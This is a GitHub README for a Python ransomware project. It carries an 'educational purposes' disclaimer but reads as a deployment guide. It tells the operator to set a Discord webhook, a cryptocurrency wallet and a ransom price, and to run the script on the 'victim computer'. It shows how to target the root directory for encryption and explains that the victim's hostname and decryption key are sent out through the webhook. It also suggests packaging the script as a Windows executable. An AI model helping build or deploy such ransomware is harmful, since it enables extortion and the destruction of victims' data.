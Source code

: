 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run the `install.bat` file and the installation will be done automatically

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```

    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must be run on your victim computer.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

[Decryption Accepted](https://i.ibb.co/3zn2NK3/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

[Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)
  



To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.

  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


